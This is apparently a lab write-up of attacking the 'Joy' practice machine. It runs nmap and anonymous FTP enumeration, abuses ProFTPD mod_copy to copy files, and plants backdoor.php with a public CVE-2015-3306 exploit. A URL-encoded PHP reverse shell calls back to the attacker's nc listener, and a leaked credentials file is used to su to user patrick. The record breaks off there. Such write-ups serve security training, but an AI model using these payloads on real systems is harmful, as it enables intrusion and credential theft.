




# Joy
## Information Collect
### NMAP
```
──(aacai㉿kali)-[~/Desktop/192.168.146.62]
└─$ sudo nmap -A -sV -T4 -p- 192.168.146.62
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-14 14:06 HKT
Nmap scan report for 192.168.146.62
Host is up (0.00018s latency).
Not shown: 65523 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.2.10
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxr-x   2 ftp      ftp          4096 Jan  6  2019 download
|_drwxrwxr-x   2 ftp      ftp          4096 Jan 10  2019 upload
22/tcp  open  ssh         Dropbear sshd 0.34 (protocol 2.0)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=JOY
| Subject Alternative Name: DNS:JOY
| Not valid before: 2018-12-23T14:29:24
|_Not valid after:  2028-12-20T14:29:24
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2016-07-19 20:03  ossec/
|_
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Index of /
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA SASL PIPELINING RESP-CODES TOP AUTH-RESP-CODE STLS UIDL
|_ssl-date: TLS randomness does not represent time
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: LOGINDISABLEDA0001 IMAP4rev1 LITERAL+ more SASL-IR have OK ENABLE capabilities listed IDLE post-login Pre-login STARTTLS ID LOGIN-REFERRALS
|_ssl-date: TLS randomness does not represent time
445/tcp open  netbios-ssn Samba smbd 4.5.12-Debian (workgroup: WORKGROUP)
465/tcp open  smtp        Postfix smtpd
|_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=JOY
| Subject Alternative Name: DNS:JOY
| Not valid before: 2018-12-23T14:29:24
|_Not valid after:  2028-12-20T14:29:24
|_ssl-date: TLS randomness does not represent time
587/tcp open  smtp        Postfix smtpd
|_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=JOY
| Subject Alternative Name: DNS:JOY
| Not valid before: 2018-12-23T14:29:24
|_Not valid after:  2028-12-20T14:29:24
993/tcp open  ssl/imaps?
| ssl-cert: Subject: commonName=JOY/organizationName=Good Tech Pte. Ltd/stateOrProvinceName=Singapore/countryName=SG
| Not valid before: 2019-01-27T17:23:23
|_Not valid after:  2032-10-05T17:23:23
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3s?
| ssl-cert: Subject: commonName=JOY/organizationName=Good Tech Pte. Ltd/stateOrProvinceName=Singapore/countryName=SG
| Not valid before: 2019-01-27T17:23:23
|_Not valid after:  2032-10-05T17:23:23
|_ssl-date: TLS randomness does not represent time
MAC Address: 00:0C:29:5F:67:33 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts: The,  JOY.localdomain, JOY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2h39m52s, deviation: 4h37m07s, median: 6s
|_nbstat: NetBIOS name: JOY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.12-Debian)
|   Computer name: joy
|   NetBIOS computer name: JOY\x00
|   Domain name: \x00
|   FQDN: joy
|_  System time: 2022-07-14T14:07:10+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-07-14T06:07:10
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.19 ms 192.168.146.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.97 seconds

```
- There are quite a lot of ports on this target machine, just list them one by one.

  - 21: ftp
  - 22: ssh
  - 25: smtp
  - 80: http
  - 110: pop3
  - 139: samba
  - 143: imap
  - 445: samba
  - 465: smtp
  - 587: smtp
  - 993: ssl/imap
  - 995: ssl/pop3
<br>
Let's start with ftp, because it allows me to log in anonymously
<br>

```
ftp 192.168.146.62
Connected to 192.168.146.62.
220 The Good Tech Inc. FTP Server
Name (192.168.146.62:aacai): anonymous 
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxrwxr-x   2 ftp      ftp          4096 Jan  6  2019 download
drwxrwxr-x   2 ftp      ftp          4096 Jan 10  2019 upload
226 Transfer complete
ftp> cd download
250 CWD command successful
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
226 Transfer complete
ftp> cd ..
250 CWD command successful
ftp> cd upload
250 CWD command successful
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rwxrwxr-x   1 ftp      ftp          1908 Jul 14 06:09 directory
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_armadillo
-rw-rw-rw-   1 ftp      ftp            25 Jan  6  2019 project_bravado
-rw-rw-rw-   1 ftp      ftp            88 Jan  6  2019 project_desperado
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_emilio
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_flamingo
-rw-rw-rw-   1 ftp      ftp             7 Jan  6  2019 project_indigo
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_komodo
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_luyano
-rw-rw-rw-   1 ftp      ftp             8 Jan  6  2019 project_malindo
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_okacho
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_polento
-rw-rw-rw-   1 ftp      ftp            20 Jan  6  2019 project_ronaldinho
-rw-rw-rw-   1 ftp      ftp            55 Jan  6  2019 project_sicko
-rw-rw-rw-   1 ftp      ftp            57 Jan  6  2019 project_toto
-rw-rw-rw-   1 ftp      ftp             5 Jan  6  2019 project_uno
-rw-rw-rw-   1 ftp      ftp             9 Jan  6  2019 project_vivino
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_woranto
-rw-rw-rw-   1 ftp      ftp            20 Jan  6  2019 project_yolo
-rw-rw-rw-   1 ftp      ftp           180 Jan  6  2019 project_zoo
-rwxrwxr-x   1 ftp      ftp            24 Jan  6  2019 reminder
226 Transfer complete
```
There are many things in upload, grab them one by one and take a look
```
└─$ wc * | sort 
  0   0   0 project_armadillo
  0   0   0 project_emilio
  0   0   0 project_flamingo
  0   0   0 project_komodo
  0   0   0 project_luyano
  0   0   0 project_okacho
  0   0   0 project_polento
  0   0   0 project_woranto
  1  12  57 project_toto
  1   1   5 project_uno
  1  17  88 project_desperado
  1   1   7 project_indigo
  1   1   8 project_malindo
  1   2  20 project_ronaldinho
  1   2   9 project_vivino
  1   4  20 project_yolo
  1   4  24 reminder
  1   5  25 project_bravado
  1   9  55 project_sicko
 24  24 180 project_zoo
 35  82 498 total

└─$ cat *            
This is a brave project!
What happens when you have no idea what you are doing? Bang your head against the wall.
colour
airline
skilled footballer!
Perhaps the head of development is secretly a sicko...
either a dog name, or the name of a lottery in singapore
ONE!
wine app
you only live once!
dog
cat
ant
bird
fish
hare
snake
mouse
eagle
rabbit
jaguar
python
penguin
peacock
phoenix
kangaroo
parakeet
mosquito
mousedeer
woodlouse
cockroach
kingfisher
rhinoceros
pondskater
Lock down this machine!
```

<br>
At present, the above information is temporarily useless, continue to explore
<br>
Take a look at the web interface


<br>
There is an ossec directory, click into it is an event management platform



<br> 
From the logo in the upper left corner, you can see that this is an OSSEC platform, and the version is 0.8, then we search sploit to see if there are any exploitable vulnerabilities
<br> 
Yes!

```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62]
└─$ searchsploit ossec                     
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
OSSEC 2.7 < 2.8.1 - 'diff' Local Privilege Es | linux/local/37265.txt
OSSEC 2.8 - 'hosts.deny' Local Privilege Esca | linux/local/35234.py
OSSEC WUI 0.8 - Denial of Service             | php/dos/37728.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                              
```
<br>Then use it directly and try it, and it just matches the version number

```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62/script]
└─$ searchsploit -m php/dos/37728.py     
  Exploit: OSSEC WUI 0.8 - Denial of Service
      URL: https://www.exploit-db.com/exploits/37728
     Path: /usr/share/exploitdb/exploits/php/dos/37728.py
File Type: ASCII text, with CRLF line terminators

Copied to: /home/aacai/Desktop/192.168.146.62/script/37728.py

└─$ python 37728.py                                                                                                                                     1 ⨯
[-]Usage: python 37728.py <ip>\ossec-wui-0.8[-]Exemple: python 37728.py 127.0.0.1\ossec-wui-0.8                                                                                                                                                            
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62/script]
└─$ python 37728.py 192.168.146.62                                                                                                                      1 ⨯
[+]Connecting to milad exploit ...
Connection failed.

```

<br>ok.. useless, change my mind
<br>I thought about it again, there was a directory directory in ftp just now, go back and have a look

```
└─$ ftp 192.168.146.62       
Connected to 192.168.146.62.
220 The Good Tech Inc. FTP Server
Name (192.168.146.62:aacai): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxrwxr-x   2 ftp      ftp          4096 Jan  6  2019 download
drwxrwxr-x   2 ftp      ftp          4096 Jan 10  2019 upload
226 Transfer complete
ftp> cd upload
250 CWD command successful
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rwxrwxr-x   1 ftp      ftp          3524 Jul 14 06:48 directory
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_armadillo
-rw-rw-rw-   1 ftp      ftp            25 Jan  6  2019 project_bravado
-rw-rw-rw-   1 ftp      ftp            88 Jan  6  2019 project_desperado
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_emilio
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_flamingo
-rw-rw-rw-   1 ftp      ftp             7 Jan  6  2019 project_indigo
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_komodo
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_luyano
-rw-rw-rw-   1 ftp      ftp             8 Jan  6  2019 project_malindo
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_okacho
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_polento
-rw-rw-rw-   1 ftp      ftp            20 Jan  6  2019 project_ronaldinho
-rw-rw-rw-   1 ftp      ftp            55 Jan  6  2019 project_sicko
-rw-rw-rw-   1 ftp      ftp            57 Jan  6  2019 project_toto
-rw-rw-rw-   1 ftp      ftp             5 Jan  6  2019 project_uno
-rw-rw-rw-   1 ftp      ftp             9 Jan  6  2019 project_vivino
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_woranto
-rw-rw-rw-   1 ftp      ftp            20 Jan  6  2019 project_yolo
-rw-rw-rw-   1 ftp      ftp           180 Jan  6  2019 project_zoo
-rwxrwxr-x   1 ftp      ftp            24 Jan  6  2019 reminder
226 Transfer complete
ftp> get directory
local: directory remote: directory
200 PORT command successful
150 Opening BINARY mode data connection for directory (3524 bytes)
226 Transfer complete
3524 bytes received in 0.00 secs (40.4909 MB/s)
ftp> 

└─$ cat directory    
Patrick's Directory

total 140
drwxr-xr-x 18 patrick patrick 4096 Jul 14 14:45 .
drwxr-xr-x  4 root    root    4096 Jan  6  2019 ..
-rw-r--r--  1 patrick patrick   24 Jul 14 14:25 6ZpqoM5pc68DHju68DeIV5fTPXFn9R3Euurp071fBgYFTnlKjk4XdRQsnE2dF8dG.txt
-rw-r--r--  1 patrick patrick   24 Jul 14 14:20 7KYw0WZ0piDtNTqYyOJMwE4alhiRXTZ1389wbPM6OXnUcXZtW7R9m6mmpfeWO1Mz.txt
-rw-r--r--  1 patrick patrick   24 Jul 14 14:45 a6tGrbgldHgMlulbxC1hpm4I1x9ub5n2ik7ulnh402H4b4iiWRohbopum4FE8Ok6.txt
-rw-------  1 patrick patrick  185 Jan 28  2019 .bash_history
-rw-r--r--  1 patrick patrick  220 Dec 23  2018 .bash_logout
-rw-r--r--  1 patrick patrick 3526 Dec 23  2018 .bashrc
-rw-r--r--  1 patrick patrick   24 Jul 14 14:10 bmsrDrQoN6BkHRGavKBU0doM63t57da1f3PMgBLSCamqbPiHKmJqBav4nCX6XJI8.txt
drwx------  7 patrick patrick 4096 Jan 10  2019 .cache
drwx------ 10 patrick patrick 4096 Dec 26  2018 .config
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Desktop
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Documents
drwxr-xr-x  3 patrick patrick 4096 Jan  6  2019 Downloads
-rw-r--r--  1 patrick patrick    0 Jul 14 14:10 ESM8O53gN99NnolrNOBEJGzQ3vJTaCm0.txt
-rw-r--r--  1 patrick patrick    0 Jul 14 14:40 fKiAwksNd8I5vp9US9iJ4hrrlkBYAygt.txt
-rw-r--r--  1 patrick patrick    0 Jul 14 14:05 FrHPwQIUqb2MfOYoXX3scLBl5CwYi6Me.txt
drwx------  3 patrick patrick 4096 Dec 26  2018 .gnupg
-rwxrwxrwx  1 patrick patrick    0 Jan  9  2019 haha
-rw-------  1 patrick patrick 8532 Jan 28  2019 .ICEauthority
-rw-r--r--  1 patrick patrick   24 Jul 14 14:05 k31WCWivrCyWcF7gj9R582w1D8aIFmYe6liNVJW9C6Ky4fbwmvqkcqAY4d1up36J.txt
-rw-r--r--  1 patrick patrick   24 Jul 14 14:35 KrPfaWs3eOA4W9YYUIUkwjYwsSk6k21iKRoZWBBAVhcl14TIqLkDLscFrzBWH2RK.txt
drwxr-xr-x  3 patrick patrick 4096 Dec 26  2018 .local
drwx------  5 patrick patrick 4096 Dec 28  2018 .mozilla
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Music
drwxr-xr-x  2 patrick patrick 4096 Jan  8  2019 .nano
-rw-r--r--  1 patrick patrick    0 Jul 14 14:20 nTt4VTjZJgBBUqiIzFYw4On0i7UhYeaf.txt
-rw-r--r--  1 patrick patrick   24 Jul 14 14:30 Oqkq14uT1TjKY5tQJyKN7MGmU2c9x4zjukIpzUrB4iO4kFh5IFdCAkoapSGvET8r.txt
-rw-r--r--  1 patrick patrick    0 Jul 14 14:45 oVdL6xPBH5l02e1h7wYm4UKAL3UcxkWb.txt
-rw-r--r--  1 patrick patrick    0 Jul 14 14:35 P48sxsP4tjxJs9H7mpqt1RScP3NYHjEc.txt
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Pictures
-rw-r--r--  1 patrick patrick  675 Dec 23  2018 .profile
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Public
-rw-r--r--  1 patrick patrick   24 Jul 14 14:40 S98AZDKMI2GmO9cW6W3EFByKt0nAqOrSCfAEv8fT84ZKPoy7pcnMA8PPsMFAK1Us.txt
d---------  2 root    root    4096 Jan  9  2019 script
drwx------  2 patrick patrick 4096 Dec 26  2018 .ssh
-rw-r--r--  1 patrick patrick    0 Jul 14 14:25 STYKZNSzyX4wSLO7VbSxCFw4OZz0olpz.txt
-rw-r--r--  1 patrick patrick    0 Jan  6  2019 Sun
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Templates
-rw-r--r--  1 patrick patrick    0 Jan  6  2019 .txt
-rw-r--r--  1 patrick patrick    0 Jul 14 14:30 uHqNPjngQMxjt5bcQ0L6V7uqeL58SOGr.txt
-rw-r--r--  1 patrick patrick  407 Jan 27  2019 version_control
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Videos
-rw-r--r--  1 patrick patrick    0 Jul 14 14:15 VrxhyaCwZCJutG3unpFDXHkCEjV0VxFZ.txt
-rw-r--r--  1 patrick patrick   24 Jul 14 14:15 XsyCBw2ziemeLeWQfyKY384LX25LfhAMkKxVP4hC3f1OTPfT3rvGg6DVWwzzPSoZ.txt

You should know where the directory can be accessed.

Information of this Machine!

Linux JOY 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux

```

<br>Here I see a file called version_control
<br>Try to use telnet to copy to the upload folder to view the file content

```
└─$ telnet 192.168.146.62 21                                                                                                        1 ⨯
Trying 192.168.146.62...
Connected to 192.168.146.62.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server
site cpfr /home/patrick/version_control
350 File or directory exists, ready for destination name
site cpto /home/ftp/upload/vc
250 Copy successful
exit
500 EXIT not understood
exit
500 EXIT not understood
^Cquit
221 Goodbye.
Connection closed by foreign host.
```

<br>Go to ftp and download it

```
└─$ ftp 192.168.146.62
Connected to 192.168.146.62.
220 The Good Tech Inc. FTP Server
Name (192.168.146.62:aacai): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd upload
250 CWD command successful
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rwxrwxr-x   1 ftp      ftp          3726 Jul 14 06:54 directory
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_armadillo
-rw-rw-rw-   1 ftp      ftp            25 Jan  6  2019 project_bravado
-rw-rw-rw-   1 ftp      ftp            88 Jan  6  2019 project_desperado
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_emilio
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_flamingo
-rw-rw-rw-   1 ftp      ftp             7 Jan  6  2019 project_indigo
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_komodo
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_luyano
-rw-rw-rw-   1 ftp      ftp             8 Jan  6  2019 project_malindo
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_okacho
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_polento
-rw-rw-rw-   1 ftp      ftp            20 Jan  6  2019 project_ronaldinho
-rw-rw-rw-   1 ftp      ftp            55 Jan  6  2019 project_sicko
-rw-rw-rw-   1 ftp      ftp            57 Jan  6  2019 project_toto
-rw-rw-rw-   1 ftp      ftp             5 Jan  6  2019 project_uno
-rw-rw-rw-   1 ftp      ftp             9 Jan  6  2019 project_vivino
-rw-rw-rw-   1 ftp      ftp             0 Jan  6  2019 project_woranto
-rw-rw-rw-   1 ftp      ftp            20 Jan  6  2019 project_yolo
-rw-rw-rw-   1 ftp      ftp           180 Jan  6  2019 project_zoo
-rwxrwxr-x   1 ftp      ftp            24 Jan  6  2019 reminder
-rw-r--r--   1 0        0             407 Jul 14 06:53 vc
226 Transfer complete
ftp> get vc
local: vc remote: vc
200 PORT command successful
150 Opening BINARY mode data connection for vc (407 bytes)
226 Transfer complete
407 bytes received in 0.00 secs (7.4643 MB/s)
ftp> exit
221 Goodbye.
                                                                                                                                        
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62]
└─$ ls
directory          project_desperado  project_indigo  project_malindo  project_ronaldinho  project_uno      project_yolo  script
project_armadillo  project_emilio     project_komodo  project_okacho   project_sicko       project_vivino   project_zoo   vc
project_bravado    project_flamingo   project_luyano  project_polento  project_toto        project_woranto  reminder
                                                                                                                                        
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62]
└─$ cat vc       
Version Control of External-Facing Services:

Apache: 2.4.25
Dropbear SSH: 0.34
ProFTPd: 1.3.5
Samba: 4.5.12

We should switch to OpenSSH and upgrade ProFTPd.

Note that we have some other configurations in this machine.
1. The webroot is no longer /var/www/html. We have changed it to /var/www/tryingharderisjoy.
2. I am trying to perform some simple bash scripting tutorials. Let me see how it turns out.

```

<br> Here we get several version information, and the main directory of the web has been migrated to /var/www/tryingharderisjoy. Maybe these applications have loopholes, try using searchexploit

```
└─$ searchsploit proftpd 1.3.5
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                    | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                          | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                                                    | linux/remote/36742.txt
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                                               
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62]
└─$ 

```
### Exploiting Vulnerabilities

<br>Check the vulnerability of remote code execution through searchsploit, download it and try to use it

```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62]
└─$ python 36803.py 192.168.146.62 /var/www/tryingharderisjoy id
  ___        __        ____                 _    _  
 |_ _|_ __  / _| ___  / ___| ___ _ __      / \  | |    
  | || '_ \| |_ / _ \| |  _ / _ \ '_ \    / _ \ | |    
  | || | | |  _| (_) | |_| |  __/ | | |  / ___ \| |___ 
 |___|_| |_|_|  \___/ \____|\___|_| |_| /_/   \_\_____|


[ + ] Connected to server [ + ] 


^CTraceback (most recent call last):
  File "36803.py", line 31, in <module>
    s.recv(1024)
KeyboardInterrupt

```
<br>No response, go to github to see
<br>It turns out that ProFTPD has a CVEID
<br>
https://github.com/t0kx/exploit-CVE-2015-3306/

```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62]
└─$ git clone https://github.com/t0kx/exploit-CVE-2015-3306.git             
Cloning into 'exploit-CVE-2015-3306'...
remote: Enumerating objects: 11, done.
remote: Total 11 (delta 0), reused 0 (delta 0), pack-reused 11
Receiving objects: 100% (11/11), 15.11 KiB | 3.02 MiB/s, done.
Resolving deltas: 100% (1/1), done.
                                                                                                                                                                               
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62]
└─$ ls
36803.py               project_armadillo  project_emilio    project_komodo   project_okacho      project_sicko  project_vivino   project_zoo  vc
directory              project_bravado    project_flamingo  project_luyano   project_polento     project_toto   project_woranto  reminder
exploit-CVE-2015-3306  project_desperado  project_indigo    project_malindo  project_ronaldinho  project_uno    project_yolo     script
                                                                                                                                                                               
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62]
└─$ cd exploit-CVE-2015-3306 
                                                                                                                                                                               
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62/exploit-CVE-2015-3306]
└─$ ls
Dockerfile  exploit.py  LICENSE  main.sh  README.md
                                                                                                                                                                               
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62/exploit-CVE-2015-3306]
└─$ 

```

Next try to exploit the vulnerability

```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62/exploit-CVE-2015-3306]
└─$ ./exploit.py --host 192.168.146.62 --port 21 --path "/var/www/tryingharderisjoy"
[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 192.168.146.62:21
[+] Target exploited, acessing shell at http://192.168.146.62/backdoor.php
[+] Running whoami: www-data
[+] Done
                                                                                                                                                                               
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62/exploit-CVE-2015-3306]
└─$ 
```

*It's working!!!*
<br>Next try typing the command
<br>

<br>
with echo
<br>
try nc
<br>

<br>
nc does not echo, so  can only use php
<br>
Start a local listen first

```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.62/exploit-CVE-2015-3306]
└─$ nc -nvlp 4444                 
listening on [any] 4444 ...
```
to generate a php bounce shell command
<br>
https://sentrywhale.com/documentation/reverse-shell

```
http://192.168.146.62/backdoor.php?cmd=php%20-r%20%27%24sock%3Dfsockopen(%22192.168.146.63%22%2C4444)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27

└─$ nc -nvlp 4444                 
listening on [any] 4444 ...


connect to [192.168.146.63] from (UNKNOWN) [192.168.146.62] 51136
/bin/sh: 0: can't access tty; job control turned off
$ $ $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),123(ossec)
$ whoami
www-data
$ ip a 
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:5f:67:33 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.62/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 67979sec preferred_lft 67979sec
    inet6 fe80::20c:29ff:fe5f:6733/64 scope link 
       valid_lft forever preferred_lft forever
$ 

```
<br>Get normal user permission

## Privilege escalation
```
$ pwd
/var/www/tryingharderisjoy
$ ls
backdoor.php
ossec
$ cd os	
/bin/sh: 9: cd: can't cd to os
$ cd ossec
$ ls
CONTRIB
LICENSE
README
README.search
css
htaccess_def.txt
img
index.php
js
lib
ossec_conf.php
patricksecretsofjoy
setup.sh
site
tmp
$ cat patricksecretsofjoy
credentials for JOY:
patrick:apollo098765
root:howtheheckdoiknowwhattherootpasswordis

how would these hack3rs ever find such a page?
$ 

```
<br>Through the enumeration of the directory, you can see that it contains the password of a patrick user
<br>
Since what I got was a simple shell interaction, I couldn't log in with sh, so I went to google and found a new method to share with you.
<br>
https://forum.hackthebox.com/t/su-must-be-run-from-a-terminal/1458/4
<br>
It only needs one command to become a more complete shell interface
<br>

```
/usr/bin/script -qc /bin/bash /dev/null
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@JOY:/var/www/tryingharderisjoy/ossec$ ls
ls
CONTRIB  README.search	   img	      lib		   setup.sh
LICENSE  css		   index.php  ossec_conf.php	   site
README	 htaccess_def.txt  js	      patricksecretsofjoy  tmp
www-data@JOY:/var/www/tryingharderisjoy/ossec$ 

Similarly, python can also achieve
python -c 'import pty; pty.spawn("/bin/bash")'
```
<br>su to Patrick

```
www-data@JOY:/var/www/tryingharderisjoy/ossec$ su patrick
su patrick
Password: apollo098765

patrick@JOY:/var/www/tryingharderisjoy/ossec$ ls
ls
CONTRIB           img        lib             patricksecretsofjoy  setup.sh
